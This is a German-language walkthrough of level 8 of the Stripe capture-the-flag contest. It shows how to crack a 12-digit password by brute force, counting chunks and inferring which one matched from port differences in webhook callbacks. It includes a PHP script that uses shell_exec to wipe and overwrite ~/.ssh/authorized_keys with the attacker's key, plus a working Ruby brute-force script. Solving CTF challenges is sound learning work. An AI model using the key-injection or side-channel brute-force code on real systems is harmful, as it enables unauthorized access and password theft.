 LEVEL 08
========

ssh running on server 2, inject your ssh-key with ssh.php.
Log in with user-XXXXX@level02-X.stripe-ctf.com.

Configure and upload crack0r.rb. After that: run it!

---

Der Passwordstore in Level08 hält ein 12-stelliges numerisches Passwort, welches in vier Teile geteilt wurde und in vier Prozesse ausgelaert wurde. Senden wir einen Request zu dem Primärserver, so werden alle vier Chunkserver auf die Callback-URL zugreifen und false bzw. true melden.

    curl https://level08-4.stripe-ctf.com/user-bykvbccntg/ -d '{"password": "password-to-check", "webhooks": []}'

Ein Passwort 123456789012 wird also in die chunks [123, 456, 789, 012] geteilt. Nun können wir hier einfach die einzelnen Chunks hochzählen und auf  eine true-Antwort des Chunkservers warten. Ist das für den ersten Chunk gelungen, so zählen wir einfach den zweiten weiter hoch. Was aus den Logfiles des Servers (probiert's mal lokal aus!) ersichtlich wird, ist, dass uns die Portabstände verraten, welcher Chunkserver zu welchem Chunk Rückmeldung gibt. Darüber hinaus haben wir das kleine Problem, dass der Passwortserver keine Netzverbindung nach aussen hat, lediglich auf Server  *stripe-ctf.com kann der Passwortserver zugreifen. Um ein Script auszuführen bräuchten wir also Zugang zum SSH-Server aus Level02. Wenn wir uns mit dem Username aus Level02 auf dem Server per SSH einloggen wollen fällt auf, dass man lediglich per Public Key zugreifen kann. Also kann man hier ein kleines Script benutzen, welches unseren SSH-Key in die _~/.ssh/allowed_keys_ injiziert. 

    <?php
      error_reporting(E_ALL);
      $key = "your id_rsa.pub key"
      shell_exec('rm -rf ../../.ssh/authorized_keys');
      shell_exec('touch ../../.ssh/authorized_keys');
      shell_exec('echo ' . $key . ' >> ../../.ssh/authorized_keys');
      echo shell_exec('cat ../../.ssh/authorized_keys');
    ?>

Danach kann man sich per SSH einloggen. Wer nicht weiß wie man einen id_rsa.pub Key generiert...äh. Googlen?
Jetzt kann man folgendes, kleines Script verwenden um das Passwort per Bruteforce herauszufinden - das dauert ein wenig, funktioniert aber super!

    require 'net/http'
    require 'net/https'
    require 'socket'

    port = 0
    #host = "https://level08-4.stripe-ctf.com/user-xxxxx/"
    #lvl2machine = "level02-2.stripe-ctf.com"
    host = "http://127.0.0.1:3000"
    lvl2machine = '127.0.0.1'
    webhooks = []

    chunks = [0, 0, 0, 0]

    uri = URI.parse(host);
    server = TCPServer.new(32000)

    while true 
      password = "#{chunks[0].to_s.rjust(3, '0')}#{chunks[1].to_s.rjust(3, '0')}#{chunks[2].to_s.rjust(3, '0')}#{chunks[3].to_s.rjust(3, '0')}"
      body = "{\"password\": \"#{password}\", \"webhooks\": [\"#{lvl2machine}:#{server.addr[1]}\"]}"
      http = Net::HTTP.new(uri.host, uri.port)
      #http.use_ssl = true # needed for production system
      #http.verify_mode = OpenSSL::SSL::VERIFY_NONE # needed for production system
      req = Net::HTTP::Post.new(uri.request_uri)
      req.body = body
      begin
        response = http.request(req)
        client = server.accept
      rescue
        puts 'exception!'
        next
      end
      if port != 0
        diff = client.peeraddr[1] - port
        print "Password: #{password} - "
        p client.peeraddr
        index = diff - 3 # may need adjustment
        if [0,1,2,3].include? index
          chunks[index] += 1
        end
        if response.body.include?("true")
          puts 'BAM'
          return
        end
      end
      port = client.peeraddr[1]
      client.close
    end

Man erstellt also auf dem Server von Level 2 einen kleinen TCP Server, der auf Verbindungen der Chunkserver wartet. Das ist notwendig, damit wir an die Portnummer des sendenden Prozesses kommmen. Danach wird eine Differenz aus letztem und aktuellen Port errechnet und danach der zugehörige Chunk aufaddiert. Am Ende sollte dann das korrekte Passwort ausgegeben werden. Fertig! 